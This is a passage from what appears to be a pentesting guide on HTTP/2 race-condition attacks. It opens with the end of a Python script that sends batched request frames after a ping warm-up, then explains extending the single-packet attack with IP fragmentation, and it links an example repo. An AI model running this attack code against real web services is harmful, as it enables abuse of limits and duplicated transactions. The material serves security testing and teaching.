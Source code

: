 ```python
    temp_data_bytes = b''
    for d in all_data_frames:
        temp_data_bytes += bytes(d)

    h2_conn.send_bytes(temp_headers_bytes)

    # wait some time
    sleep(0.1)

    # send ping frame to warm up connection
    h2_conn.send_ping_frame()

    # send remaining data frames
    h2_conn.send_bytes(temp_data_bytes)

    resp = h2_conn.read_response_from_socket(_timeout=3)
    frame_parser = h2_frames.FrameParser(h2_connection=h2_conn)
    frame_parser.add_frames(resp)
    frame_parser.show_response_of_sent_requests()

    print('---')

    sleep(3)
    h2_conn.close_connection()
    
    response = requests.get(url, verify=False)
```

### Improving Single Packet Attack

In the original research it's explained that this attack has a limit of 1,500 bytes. However, in [**this post**](https://flatt.tech/research/posts/beyond-the-limit-expanding-single-packet-race-condition-with-first-sequence-sync/), it was explained how it's possible to extend the 1,500-byte limitation of the single packet attack to the **65,535 B window limitation of TCP by using IP layer fragmentation** (splitting a single packet into multiple IP packets) and sending them in different order, allowed to prevent reassembling the packet until all the fragments reached the server. This technique allowed the researcher to send 10,000 requests in about 166ms.&#x20;

Note that although this improvement makes the attack more reliable in RC that requiers hundreds/thousands of packets to arrive at the same time, it might also have some software limitations. Some popular HTTP servers like Apache, Nginx and Go have a strict `SETTINGS_MAX_CONCURRENT_STREAMS` setting to 100, 128 and 250. However, other like NodeJS and nghttp2 has it unlimited.\
This basically mean that Apache will only consider 100 HTTP connections from a single TCP connection (limiting this RC attack).

You can find some examples using this tehcnique in the repo [https://github.com/Ry0taK/first-sequence-sync/tree/main](https://github.com/Ry0taK/first-sequence-sync/tree/main).

## Raw BF

Before the previous research these were some payloads used which just tried to send the packets as fast as possible to cause a RC.
